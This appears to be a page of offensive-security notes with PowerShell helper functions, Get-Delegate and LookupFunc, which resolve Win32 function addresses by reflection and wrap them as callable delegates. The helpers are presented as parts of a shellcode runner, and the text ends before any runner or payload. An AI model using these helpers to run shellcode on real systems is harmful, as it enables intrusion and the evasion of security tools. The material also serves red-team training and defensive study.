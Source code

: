 ```powershell
function Get-Delegate
{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [IntPtr] $funcAddr, # Function address
        [Parameter(Position = 1, Mandatory = $True)] [Type[]] $argTypes, # array with the argument types
        [Parameter(Position = 2)] [Type] $retType = [Void] # Return type
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('QD')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('QM', $false).
    DefineType('QT', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $argTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argTypes).SetImplementationFlags('Runtime, Managed')
    $delegate = $type.CreateType()

    return [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($funcAddr, $delegate)
}
```
### Example with a simple shellcode runner

```powershell
# Create a Delegate function  to be able to call the function that we have the address
function Get-Delegate
{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [IntPtr] $funcAddr, # Function address
        [Parameter(Position = 1, Mandatory = $True)] [Type[]] $argTypes, # array with the argument types
        [Parameter(Position = 2)] [Type] $retType = [Void] # Return type
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('QD')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('QM', $false).
    DefineType('QT', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $argTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argTypes).SetImplementationFlags('Runtime, Managed')
    $delegate = $type.CreateType()

    return [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($funcAddr, $delegate)
}
# Allow to retrieve function address from a dll
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

```